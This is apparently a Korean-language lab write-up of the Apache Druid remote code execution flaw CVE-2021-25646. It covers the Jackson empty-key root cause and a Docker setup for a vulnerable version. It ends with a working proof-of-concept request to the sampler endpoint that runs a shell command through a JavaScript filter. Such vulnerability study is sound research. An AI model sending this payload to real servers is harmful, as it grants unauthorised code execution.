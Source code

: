 # Apache Druid 취약점 (CVE-2021-25646)
### **개요**
  Apache Druid는 대량의 이벤트 데이터를 빠르게 얻고 데이터에 대한 짧은 대기 시간 쿼리를 제공하도록 Java로 작성된 열 지향 오픈 소스 분산 데이터 저장소이다. Apache Druid에는 사용자가 제공 한 JavaScript를 실행하는 코드가 포함되어 있으며 다양한 유형의 요청에 포함된다. 이 기능은 신뢰도가 높은 환경에서 사용하기 위한 기능이기 때문에, 기본적으로 비활성화 상태이다. 하지만, Druid 0.20.0 이전 버전에서는 서버 구성에 관계없이 사용자가 제공한 JavaScript 코드를 실행할 수 있는 취약점(CVE-2021-25646)이 발견되었다. 해커는 해당 취약점을 악용해 Druid 서버 프로세스의 권한으로 타겟 시스템에서 원격 코드실행을 할 수 있다.<br><br><br>
  
### **분석 내용 (Summary)**
Apache Druid는 기본적으로 JavaScript 함수의 실행을 지원하지 않는다. 이 취약점의 근본적인 문제는 Apache Druid의 Jackson이 JavaScript 타입 JSON 데이터 구문을 파싱하는 과정에서 JavaScript 실행 설정을 활성화함으로서 원격 코드 실행 취약점이 발생하게 된다. 

JavaScriptDimFilter의 생성자는 @JsonCreator를 사용한다. 즉, JavaScriptDimFilter 클래스가 역직렬화 될 때, Jackson은 이 생성 메서드를 호출하고, dimesion, function, extractFn, filterTuning은 Jackson이 JavaScriptDimFilter로 역 직렬화 및 구문 분석 할 때, CreatorProterty 유형으로 캡슐화되며 @JsonProperty로 표시되지 않은 구성 매개 변수의 경우 ""라는 CreatorProperty가 생성된다.
Jackson이 구문 분석 시에 name이 ""인 경우, config에 바인딩이 된다. 이를 통해 JavaScript를 사용하도록 설정할 수 있다.

_deserializePropertyBased 메서드를 사용하여 구문이 분석된 Json 문자열의 "key name"은 현재 구문이 분석된 상태에서 해당 Creator Property를 찾는데 사용된다. Creator Property를 찾는 기능은 findCreatorProperty 메서드의 _propertyLookup HashMap에서 해당 "key name"에 대한 속성을 찾을 수 있다. _propertyLookup에서 JavaScriptConfig의 키는 @JsonProperty로 속성이 수정되지 않기 때문에, ""으로 Creator Property가 생성되고 Jacson이 입력한 키를 설정한다. 그리고 사용자는 ""값에 속성을 할당하게 된다. 
그래서 공격자가 Json 문자열에 ""로 키를 제공하면 findCreatorProperty가 해당 키와 일치하고 JavaScriptConfig에 해당하는 Creator Property를 얻는다. 이를 enabled = true로 설정하여 Apache Druid의 JavaScript기능을 활성화할 수 있다.  


<br><br><br>

# 취약 환경 구축
* 취약 버전 : Apache Druid < = 0.20.0 
* 해결 버전 : Apache Druid > = 0.20.1 이상<br> <br> 
## **환경 구축 ( docker )**
1. https://github.com/apache/druid 를 Clone. <br><br>
2. `/druid/docker_druid/druid/distribution/docker` 경로에서 docker-compose.yml 파일을 다음과 같이 수정한다. 
   * coordinator: & broker: & historical: & middlemanager: & router: 명시한 4개의 각 서비스에 대한 apaapache/druid 버전을 취약한 버전으로 수정. 

   * ex) apache druid 0.19.0 버전을 사용할 경우 아래와 같이 수정. 
```{docker}
    coordinator:
        image: apache/druid:0.19.0
        container_name: coordinator
        volumes:
          - ./storage:/opt/data
          - coordinator_var:/opt/druid/var
        depends_on:
          - zookeeper
          - postgres
        ports:
          - "8081:8081"
        command:
          - coordinator
        env_file:
          - environment
```

3. `docker-compose up` 명령 실행 <br><br>
4. 127.0.0.1:8888 접근 가능 여부 확인 <br><br>


<br>

## **취약 환경 설정 ( LoadData )**
1. 좌측 상단 Load data - Start new spec - Local disk 클릭 <br><br>
2. Connect data 이후 아래와 같이 설정을 삽입 후 Apply - Next.
   * Base directory : `quickstart/tutorial/`
   * File filter : `wikiticker-2015-09-12-sampled.json.gz` <br><br>
3. Add column filter가 보일 때까지 계속해서 Next <br><br>
4. Add column filter 클릭하여 다음과 같이 삽입 후 Apply - Next. 
   * Dimension : `cityName`
   * Value : `Auburn` <br><br>
<br><br><br>

# 취약점 테스트
### Payload : https://github.com/Vulnmachines/Apache-Druid-CVE-2021-25646/blob/main/Payload.txt

```
/tmp/hacked!.txt 파일 생성 PoC

### URL
POST 127.0.0.1:8888/druid/indexer/v1/sampler?for=filter

### Payload
{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript", "function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/hacked!.txt')}", "dimension":"added", "":{ "enabled":"true" } }}}},"samplerConfig":{"numRows":500,"cacheKey":"73a90acaae2b1ccc0e969709665bc62f"}}
```
<br>

## **패킷 전송**


<br><br>

## **결과 확인**


<br><br><br>
# 참고 자료 
* https://www.77169.net/html/275825.html
* https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
* https://mp.weixin.qq.com/s/m7WLwJX-566WQ29Tuv7dtg
* https://securitylab.github.com/research/rhino-in-the-room/
* https://xz.aliyun.com/t/9229?page=1
* https://hell38vn.wordpress.com/2021/04/01/phan-tich-cve-2021-25646-code-execution-on-apache-druid/
  